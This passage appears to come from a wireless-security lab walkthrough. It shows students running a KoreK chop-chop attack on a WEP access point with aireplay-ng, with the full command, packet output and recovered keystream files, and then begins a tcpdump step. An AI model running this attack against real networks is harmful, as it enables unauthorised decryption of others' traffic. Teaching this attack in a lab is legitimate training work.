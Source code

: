 Students will open a new terminal and use `aireplay-ng` to perform a KoreK chop chop attack targeting the MAC addresses found in the `BSSID` and `STATION` columns in the `airodump-ng` output, respectively. Once a packet is found, students will use that packet. Note the MAC addresses may change upon target spawn or reset:

Code: shell

```shell
sudo aireplay-ng -4 -b D8:D6:3D:EB:29:D5 -h DA:F5:D5:63:BB:E1 wlan0mon
y
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -4 -b D8:D6:3D:EB:29:D5 -h DA:F5:D5:63:BB:E1 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether DA:F5:D5:63:BB:E1
07:09:07  Waiting for beacon frame (BSSID: D8:D6:3D:EB:29:D5) on channel 1

        Size: 100, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  D8:D6:3D:EB:29:D5
          Dest. MAC  =  D8:D6:3D:EB:29:D5
         Source MAC  =  DA:F5:D5:63:BB:E1

        0x0000:  0841 0201 d8d6 3deb 29d5 daf5 d563 bbe1  .A....=.)....c..
        0x0010:  d8d6 3deb 29d5 4010 d148 1d00 4ae4 569e  ..=.).@..H..J.V.
        0x0020:  6108 ecb6 524c 997e 856c 9694 effb 2b91  a...RL.~.l....+.
        0x0030:  d739 2b60 2b9e d4c6 c31c dec4 a0c0 e03f  .9+\`+..........?
        0x0040:  dab9 99ee e209 838d 95a6 a241 666a 4a62  ...........AfjJb
        0x0050:  7399 b366 6c1c 7619 a79c b97f 98b4 54b5  s..fl.v......T.
        0x0060:  4c91 bf88                                L...

Use this packet ? y

<SNIP>

Offset   44 (83% done) | xor = AF | pt = 40 |   70 frames written in  1191ms
Offset   43 (84% done) | xor = 94 | pt = 00 |  124 frames written in  2113ms
Offset   42 (86% done) | xor = D6 | pt = 40 |   38 frames written in   653ms
Offset   41 (87% done) | xor = 12 | pt = 7E |   97 frames written in  1645ms
Offset   40 (89% done) | xor = BB | pt = 3E |   20 frames written in   339ms
Sent 902 packets, current guess: 82...

The AP appears to drop packets shorter than 40 bytes.
Enabling standard workaround:  IP header re-creation.

Saving plaintext in replay_dec-1127-071138.cap
Saving keystream in replay_dec-1127-071138.xor

Completed in 135s (0.46 bytes/s)
```

Students will use `tcpdump` to recover both the IPs of the client and the access point within the packet capture generated by `aireplay-ng` within the `replay_dec-` files:
